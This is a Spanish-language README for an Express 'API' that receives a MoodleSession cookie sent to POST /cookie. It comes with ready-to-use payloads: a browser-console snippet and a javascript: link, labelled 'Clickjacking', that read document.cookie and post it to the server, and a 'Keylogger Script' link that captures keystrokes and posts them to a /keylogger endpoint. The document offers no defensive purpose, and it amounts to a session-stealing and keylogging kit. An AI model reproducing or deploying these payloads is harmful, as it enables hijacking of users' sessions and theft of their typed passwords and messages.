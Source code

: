 # Proyecto API con Express

## Descripción

Este proyecto es una API simple creada con Express que permite recibir cookies desde el cliente. Utiliza CORS para permitir solicitudes desde diferentes orígenes y dotenv para gestionar variables de entorno.

## Características

- Endpoint GET para verificar que la API está funcionando.
- Endpoint POST para recibir una cookie (MoodleSession) y enviar una respuesta de éxito.

## Instalación

1. Clona el repositorio.
2. Navega al directorio del proyecto.
3. Ejecuta `npm install` para instalar las dependencias.
4. Configura las variables de entorno en un archivo `.env`.
5. Inicia el servidor con `node index.js` o `npm start`.

## Uso

- **GET /**: Devuelve un mensaje indicando que la API está funcionando.
- **POST /cookie**: Envía un JSON con la cookie `MoodleSession` y recibe una respuesta de éxito.

## Ejemplo de uso desde el navegador

Puedes probar la API utilizando el siguiente script en la consola del navegador:

```javascript
const getCookies = () => {
  return document.cookie.split(";");
};

fetch("http://localhost:8000/cookie", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
  },
  body: JSON.stringify({ cookie: getCookies() }),
});
```

## También puedes probar la API utilizando curl
```bash
curl -X POST http://localhost:8000/cookie -H "Content-Type: application/json" -d "{\"cookie\":\"Cookie de ejemplo\"}"
```

## Clickjacking
```
<a href="javascript:eval('fetch(\'http://localhost:8000/cookie\', { method: \'POST\', headers: { \'Content-Type\': \'application/json\' }, body: JSON.stringify({ cookie: document.cookie}) });')">Click aquí</a>
```

## Keylogger Script
```
<a href="javascript:eval(`const keyboardLogger = []; document.addEventListener('keydown', (event) => { if (event.key === ' ') { if (keyboardLogger.length > 0) { fetch('http://localhost:8000/keylogger', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ keyboardLogger: keyboardLogger.join('') }) }); keyboardLogger.length = 0; } } else { keyboardLogger.push(event.key); } });`);">Click aquí</a>
```

## Autor

**Iván L. Álvarez**  
- GitHub: [ivanlalvarez22](https://github.com/ivanlalvarez22)  
- Portafolio: [ivanalvarez-contacto.vercel.app](https://ivanalvarez-contacto.vercel.app/)
